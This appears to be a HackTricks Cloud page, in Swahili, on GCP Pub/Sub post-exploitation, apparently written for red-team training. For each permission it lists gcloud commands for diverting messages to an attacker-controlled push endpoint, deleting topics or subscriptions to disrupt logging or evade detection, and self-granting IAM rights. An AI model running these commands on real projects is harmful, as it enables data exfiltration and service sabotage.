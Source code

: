 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Kwa maelezo zaidi kuhusu Pub/Sub angalia ukurasa ufuatao:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Chapisha ujumbe katika mada, muhimu kwa **kutuma data zisizotarajiwa** na kuanzisha kazi zisizotarajiwa au kutumia udhaifu:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Inatumika kuzuia usajili kupokea ujumbe, labda ili kuepuka kugundulika.\
Inawezekana kufuta mada hata ikiwa na usajili ulioambatanishwa nayo.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Tumia ruhusa hii kuboresha mipangilio fulani ya mada ili kuharibu, kama `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Jipe ruhusa ya kufanya mashambulizi yoyote ya hapo awali.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pata ujumbe wote katika seva ya wavuti:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Unda usajili na uitumie **kuchota ujumbe**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Kufuta usajili** kunaweza kuwa na manufaa kuharibu mfumo wa usindikaji wa kumbukumbu au kitu kingine kama hicho:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Tumia ruhusa hii kuboresha mipangilio ili ujumbe uhifadhiwe mahali unapoweza kufikia (URL, Big Query table, Bucket) au tu kuharibu hiyo. 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Jipe ruhusa zinazohitajika ili kutekeleza mashambulizi yoyote yaliyotajwa hapo awali.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Shambulia muundo kwa mada ili ujumbe usifanye hivyo na kwa hivyo mada inaharibika.\
Ikiwa hakuna muundo, huenda ukahitaji kuunda mmoja.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Hii inaweza kuonekana kama kufuta muundo ambapo utaweza kutuma ujumbe ambao haukidhi muundo. Hata hivyo, kwa kuwa muundo utaondolewa, hakuna ujumbe utakaoweza kuingia ndani ya mada. Hivyo hii ni **HAIFAI**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Jipe ruhusa zinazohitajika kutekeleza mashambulizi yoyote yaliyotajwa hapo awali.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Hii itaunda picha ya ujumbe wote ambao haujakubaliwa na kuwarudisha kwenye usajili. Si ya manufaa sana kwa mshambuliaji lakini hapa iko:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
